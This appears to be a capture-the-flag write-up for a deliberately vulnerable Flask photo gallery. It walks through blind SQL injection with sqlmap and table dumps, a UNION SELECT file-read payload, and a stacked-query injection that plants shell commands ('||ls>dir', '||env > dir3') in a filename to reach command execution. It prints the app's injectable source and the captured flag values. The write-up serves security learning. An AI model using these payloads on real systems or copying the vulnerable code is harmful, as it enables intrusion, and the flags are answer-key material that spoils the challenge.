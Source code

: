 # Flag1
I tried to scan the application's directory with `dirb` and recevied nothing.
Look at the directory of pictures and there are `/fetch?id=`. I'll gain an image (unicode) if the direcotry is `True`
Change it to `/fetchh?id=1+and+1=1` will recevie a respectly image and `id=1+and+1=2` will receive a response. It's likely a SQLi vulnerablebility.
Try with `union` but failed again -> Bind SQLi
For convenience, I use `sqlmap` to exploit this endpoint
```
available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```
Continue exploit database `level5`
```
Database: level5
[2 tables]
+--------+
| albums |
| photos |
+--------+
```
Dump table `photos`
```
Database: level5
Table: photos
[3 entries]
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | 37f55cf2af9795c5b54ebc1ebb7238bc5617f6364fae7dd7d2078f91d9e3a232 |
+----+------------------+--------+------------------------------------------------------------------+
```
```python
Flag is : ^FLAG^37f55cf2af9795c5b54ebc1ebb7238bc5617f6364fae7dd7d2078f91d9e3a232$FLAG$
```

# Flag0
`Take a few minutes to consider the state of the union`
I tried to `union` with `number or string`, therefore I need a new one. That is an image with given `filename` from above tables.

`?id=12+union+select+'files/adorable.jpg'` -> rendered unicode of it

`This application runs on the uwsgi-nginx-flask-docker image` 
This is a problem when I don't have enough knowledge about docker.

Searching the source --> https://github.com/tiangolo/uwsgi-nginx-flask-docker and https://hub.docker.com/r/tiangolo/uwsgi-nginx-flask/
We got a file `uwsgi.ini` containing:
```
[uwsgi]
module = app.main
callable = app
```
Query to the file `main.py`
```http
GET /56cc8eba0e/fetch?id=1.1%20UNION%20SELECT%20'main.py'%20-- HTTP/1.1
```

And response is
```py
from flask import Flask, abort, redirect, request, Response
import base64, json, MySQLdb, os, re, subprocess

app = Flask(__name__)

home = '''
<!doctype html>
<html>
	<head>
		<title>Magical Image Gallery</title>
	</head>
	<body>
		<h1>Magical Image Gallery</h1>
$ALBUMS$
	</body>
</html>
'''

viewAlbum = '''
<!doctype html>
<html>
	<head>
		<title>$TITLE$ -- Magical Image Gallery</title>
	</head>
	<body>
		<h1>$TITLE$</h1>
$GALLERY$
	</body>
</html>
'''

def getDb():
	return MySQLdb.connect(host="localhost", user="root", password="", db="level5")

def sanitize(data):
	return data.replace('&', '&amp;').replace('<', '&lt;').replace('>', '&gt;').replace('"', '&quot;')

@app.route('/')
def index():
	cur = getDb().cursor()
	cur.execute('SELECT id, title FROM albums')
	albums = list(cur.fetchall())

	rep = ''
	for id, title in albums:
		rep += '<h2>%s</h2>\n' % sanitize(title)
		rep += '<div>'
		cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))
		fns = []
		for pid, ptitle, pfn in cur.fetchall():
			rep += '<div><img src="fetch?id=%i" width="266" height="150"><br>%s</div>' % (pid, sanitize(ptitle))
			fns.append(pfn)
		rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + f    n for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
		rep += '</div>\n'

	return home.replace('$ALBUMS$', rep)

@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)

	# It's dangerous to go alone, take this:
	# ^FLAG^a746e1ffb76c74429047c658cb824effed8abf9e024b51beb7b8a2cb6569bfde$FLAG$

	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=80)
```

The flag
```py
Flag is : ^FLAG^a746e1ffb76c74429047c658cb824effed8abf9e024b51beb7b8a2cb6569bfde$FLAG$
```
# Flag2
Our hint is `That method of finding the size of an album seems suspicious`
Look at the code again, I doubt in thí code
```py
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

The command is likely `du -ch filename || exit 0`. Think a little bit, we can inject command right here. Therefore, the neccessary is change the `filename` to append command or in another word, we need to edit the filename.
`Remember use Transaction in SQL to ensure the table is updated after execute`
- Firstly, try to change the third title to `test ne` (successful)
Query: 
```sql
id=1;UPDATE photos SET title='test ne' WHERE id=3;COMMIT;--+-
--> id=1%3bUPDATE%20photos%20SET%20title%3d'test%20ne'%20WHERE%2bid%3d3;COMMIT;--
```
- Secondly, change the `filename` to execute RCE
```sql
id=1;UPDATE photos SET filename='||ls' WHERE id=3;COMMIT;--+-
--> id=1%3bUPDATE%20photos%20SET%20filename%3d'||ls'%20WHERE%2bid%3d3;COMMIT;--
```
Response is: `Space used: uwsgi.ini`. It's likely we don't get all the directory. Try with pipeline to read the response
```sql
-- 1: use pipeline to save output
id=1%3bUPDATE%20photos%20SET%20filename%3d'%7c%7cls>dir'%20WHERE%20id%3d3%3bCOMMIT%3b--
-- 2: read response
id=1.1%20UNION%20SELECT%20'dir'%20--
-- Response is
Dockerfile
dir
files
main.py
main.pyc
prestart.sh
requirements.txt
uwsgi.ini
```
The problem is those don't contain the flag

Hint: `Be aware of your environment`
```sql
-- 3: catch env
id=1;UPDATE photos SET filename='||env > dir3' WHERE id=3;COMMIT;--
1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--
-- 4: read response
id=1.1 UNION SELECT 'dir3'--
```

```conf
...
SUPERVISOR_GROUP_NAME=uwsgi
FLAGS=["^FLAG^a746e1ffb76c74429047c658cb824effed8abf9e024b51beb7b8a2cb6569bfde$FLAG$", "^FLAG^37f55cf2af9795c5b54ebc1ebb7238bc5617f6364fae7dd7d2078f91d9e3a232$FLAG$", "^FLAG^66de579486bc4b81541f9cf8dd95d69bc8efa7c91f16a6851376aa0f5fe30464$FLAG$"]
OSTNAME=02c04ab79088
...
```
Submit the final flag 
```py
Flag is : ^FLAG^66de579486bc4b81541f9cf8dd95d69bc8efa7c91f16a6851376aa0f5fe30464$FLAG$
```